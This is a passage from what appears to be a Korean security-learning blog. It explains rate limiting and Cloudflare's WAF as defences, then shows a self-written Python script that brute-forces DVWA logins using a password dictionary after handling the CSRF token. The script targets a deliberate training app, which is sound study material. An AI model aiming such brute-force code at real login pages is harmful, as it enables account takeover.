 < 3개의 방법 중 관심 있는 방법에 대해서 더 공부 후 내용 추가 >

#### 3. Rate Limiting - WAF

Rate Limiting / Throttling (비율 제한) 은 정해진 시간 안에 너무 많은 HTTP 요청을 보내는 아이피주소를 블랙리스트 시키는 보안 제어입니다. 예를 들어 10초안에 50개의 HTTP 요청을 보내는 경우, 일반적인 사용자의 트래픽이라고 보기 어렵기 때문에 정해진 시간 만큼 블랙리스트를 적용시킵니다.

Rate Limiting은 어플리케이션단에 소스코드로 적용하기 보단 WAF (Web Application Firewall) 형태로 적용됩니다. 예를 들어, Cloudflare 사의 WAF의 경우 지정된 정책을 기반으로 해당 정책을 위반하는 행동의 IP 주소들을 일시적으로 블랙리스트에 올립니다.

< Cloudflare 가입 후 WAF Free plan 이용, WAF의 Rate Limiting 기능이 어떻게 돌아가는지에 대한 스크린샷 및 간단 설명 ([https://developers.cloudflare.com/support/firewall/tools/configuring-cloudflare-rate-limiting/](https://developers.cloudflare.com/support/firewall/tools/configuring-cloudflare-rate-limiting/)) >

### 툴 제작

프로그래밍 능력, 툴 제작, 그리고 툴 수정 능력을 키우기 위해 다음과 같은 파이썬 툴을 제작해 브루트포스 공격을 자동화 해봤습니다.

[https://github.com/ChoiSG/RTPSourceCodes/blob/main/web/dvwa-bruteforcer.py](https://github.com/ChoiSG/RTPSourceCodes/blob/main/web/dvwa-bruteforcer.py)

DVWA의 경우 첫번째 로그인을 해 어플리케이션에 접근해야 하기 때문에 먼저 requests 라이브러리의 Session을 이용해 세션을 구축해줍니다. 이 세션을 구축할 때 DVWA의 CSRF 토큰을 자동으로 찾아 적용해야 로그인이 성공적으로 이뤄집니다.

```
# Main auth into DVWA 
with requests.Session() as sess:
    main_auth_payload = { 
        'username': {args.username}, 
        'password': {args.password},
        'Login': 'Login'
    }

    res = sess.get(f'{args.target}' + '/login.php')

    try:
        user_token = bs4.BeautifulSoup(res.text, 'html.parser').select('input[name="user_token"]')[0]['value']
        main_auth_payload['user_token'] = user_token
        print(f"[+] CSRF user_token found: {user_token}")
    [ ... ] 

	res = sess.post(f'{args.target}/login.php', data=main_auth_payload)

```

첫번째 로그인이 끝난 뒤 세션이 구축이 됐다면 본격적으로 브루트포스 공격을 타겟에게 실행합니다. 타겟 URL인 `/vulnerabilities/brute?username=<username>&password=<pass>&Login=Login` 에게 특정 유저 이름 및 비밀번호 사전을 하나씩 대입하는 루프문을 통해 브루트포스를 실행합니다.

```
# Brute force attack to /vulnerabilities/brute using args.file dictionary 
with open(args.file, 'r') as f:
    for passwd in f:
        passwd = passwd.strip() 
        print(f"[*] Trying {passwd}...")
        payload = f'{args.target}/vulnerabilities/brute/?username={args.target_username}&password={passwd}&Login=Login'
        res = sess.get(payload)

        if res.status_code == 200 and 'Welcome to the password protected area' in res.text:
            print(f"\n[+] Bruteforce SUCCESS! Username: {args.target_username} Password: {passwd}\n")
            exit(0)
```
